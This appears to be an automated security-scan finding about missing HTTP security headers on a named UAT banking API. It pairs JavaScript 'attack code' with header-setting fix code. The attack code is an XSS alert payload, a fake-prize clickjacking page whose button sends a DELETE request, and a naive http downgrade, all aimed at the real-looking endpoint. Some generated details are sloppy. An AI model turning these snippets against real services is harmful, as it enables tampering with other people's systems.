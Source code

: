 **🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Cache-Control`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```

**🛡️ Fix Code (How to Resolve):**
```javascript
// Security Headers Fix Code
// Add these headers to all API responses
response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'; object-src 'none'";
response.headers['X-Frame-Options'] = 'DENY';
response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains; preload';
response.headers['X-Content-Type-Options'] = 'nosniff';
response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin';
response.headers['Permissions-Policy'] = 'geolocation=(), microphone=(), camera=(), payment=()';
response.headers['X-XSS-Protection'] = '1; mode=block';
response.headers['Access-Control-Allow-Origin'] = 'https://yourdomain.com';
response.headers['Access-Control-Allow-Methods'] = 'GET, POST, DELETE';
response.headers['Access-Control-Allow-Headers'] = 'Content-Type, Authorization';
response.headers['X-Permitted-Cross-Domain-Policies'] = 'none';
response.headers['Cache-Control'] = 'no-store, no-cache, must-revalidate, proxy-revalidate';
response.headers['Pragma'] = 'no-cache';
response.headers['Expires'] = '0';
```
